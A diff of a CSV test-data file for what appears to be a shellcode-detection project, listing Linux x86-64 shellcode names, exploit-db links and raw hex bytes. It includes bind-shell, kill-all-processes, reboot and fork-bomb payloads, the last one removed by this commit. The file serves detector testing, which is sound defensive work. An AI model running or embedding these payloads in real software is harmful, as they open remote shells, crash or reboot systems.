

Before and after one commit to EmaSevcikova/shellcode_detector, a CSV file: test_data/shellcodes/64bit/Linux_x8664_shellcodes.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
feat: fork bomb substituted

```diff
--- a/test_data/shellcodes/64bit/Linux_x8664_shellcodes.csv
+++ b/test_data/shellcodes/64bit/Linux_x8664_shellcodes.csv
@@ -52,3 +52,2 @@ Add Root User (toor/toor) Shellcode,https://www.exploit-db.com/shellcodes/45185,
 mkdir(evil) Shellcode,https://www.exploit-db.com/shellcodes/42791,30,eb134831c05f66beef0104530f054831c0043c0f05e8e8ffffff6576696c
-Fork Bomb Shellcode,https://www.exploit-db.com/shellcodes/42523,11,4831c04883c0390f05ebf5
 Kill All Processes Shellcode,https://www.exploit-db.com/shellcodes/42522,19,4831c06aff5f4883c0094889c64883c0350f05
@@ -61 +60,3 @@ Flush IPTables Rules (/sbin/iptables -F) + Polymorphic Shellcode,https://www.exp
 Bind (Random TCP Port) Shell (/bin/sh) Shellcode,https://www.exploit-db.com/shellcodes/41468,54,68290000004831c05268020000005068010000004831d20f0531ff4889c7500f05b02b0f0552534889e74831c05048bb2f2f736800000000534889e64883c410b03b0f05
+mkdir(ajit) Shellcode,https://www.exploit-db.com/shellcodes/41089,25,4831f65668616a6974545f6a535866beef010f056a3c580f05
+execve(/bin/sh -c reboot) Shellcode,https://www.exploit-db.com/shellcodes/40808,89,eb305e31c088460788460a8846118976128d5e08895e168d5e0b895e1a89461eb00b89f38d4e128d561ecd80b00131dbcd80e8cbffffff2f62696e2f7368232d63237265626f6f742341414141424242424343434344444444
```
